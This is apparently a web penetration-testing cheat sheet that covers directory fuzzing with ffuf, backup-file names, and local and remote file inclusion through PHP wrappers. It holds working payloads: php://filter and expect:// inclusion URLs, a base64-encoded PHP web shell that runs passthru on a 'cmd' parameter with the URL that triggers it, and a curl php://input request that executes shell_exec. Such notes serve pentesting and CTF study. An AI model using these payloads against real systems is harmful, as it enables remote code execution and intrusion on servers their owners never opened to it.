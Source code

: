 ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/FUZZ -e .php,.txt -t <THREADS>
dirbuster

Dictionaries :
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirb/big.txt
   - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
File backups
Once you have found all the files, look for backups of all the executable files (“.php”, “.aspx“…). Common variations for naming a backup are

file.ext~, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old
Local File Inclusion / Remote File Inclusion - LFI / RFI
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
Wrappers
Wrapper php://filter
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
Wrapper expect://
http://example.com/index.php?page=expect://id
Wrapper data://
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with 
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
Wrapper input://
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
Useful LFI list
# Linux
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
